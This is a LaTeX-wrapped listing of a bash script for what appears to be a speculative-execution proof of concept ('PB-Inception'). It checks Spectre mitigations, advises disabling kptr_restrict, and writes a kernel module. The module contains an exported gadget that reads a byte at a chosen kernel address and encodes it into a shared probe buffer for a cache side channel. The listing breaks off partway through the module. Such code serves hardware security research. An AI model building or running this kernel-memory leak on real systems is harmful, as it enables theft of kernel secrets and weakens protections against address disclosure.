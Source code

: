 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
[[ -r /sys/devices/system/cpu/vulnerabilities/spectre_v2 ]] && cat /sys/devices/system/cpu/vulnerabilities/spectre_v2 || warn "Cannot read spectre_v2"
sysctl kernel.kptr_restrict 2>/dev/null | grep -q ' = 0' || warn "kptr_restrict != 0 (set: sudo sysctl -w kernel.kptr_restrict=0)"

################################# workspace

info "Creating workspace at ${WORKDIR}"
rm -rf "$WORKDIR"; mkdir -p "$KMOD_DIR" "$USER_DIR"

################################# kernel module

echo "[*] Writing kernel gadget source"
cat > "${KMOD_DIR}/pbinc_gadget.c" << 'EOF'
#include <linux/module.h>
#include <linux/io.h>
#include <linux/sysfs.h>

#define PROBE_SIZE (4096 * 256)

// Mapped kernel VA of the SHARED buffer (mapped via ioremap_cache())
static void __iomem *probe_kva = NULL;

// Physical address of the SHARED buffer (set by user via sysfs)
static phys_addr_t probe_pa = 0;

// Kernel virtual address to read the leaked byte from (set via sysfs)
static void *leak_source_va = NULL;

// PB-Inception Data Cache (DC) Gadget
// Speculatively executed via mispredicted RET
// Loads 1 byte from kernel address (leak_source_va) and
// encodes it into the SHARED probe buffer at [val << 12]
noinline notrace void pbinc_dc_gadget(void)
{
    if (!probe_kva || !leak_source_va)
        return;
    
    // Load the secret byte (must be mapped and readable)
    u8 val = *(volatile u8 *)leak_source_va;
    
    // Encode it into the SHARED probe buffer at offset: val * 4096
    writeb(1, probe_kva + ((size_t)val << 12));
}
EXPORT_SYMBOL_GPL(pbinc_dc_gadget); // Make the gadget address visible via kallsyms/sysfs

// Sets the physical address of the 1 MiB SHARED buffer
// Maps it with ioremap_cache() so the gadget can access it
static ssize_t probe_pa_store(struct kobject *kobj, struct kobj_attribute *attr,
                              const char *buf, size_t count)
{
    kstrtoull(buf, 0, &probe_pa);
    
    // Unmap old region if previously mapped
    if (probe_kva) iounmap(probe_kva);

    // Map the shared physical buffer into kernel VA space
    probe_kva = ioremap_cache(probe_pa, PROBE_SIZE);
    return count;
}


\end{lstlisting}
\end{document}
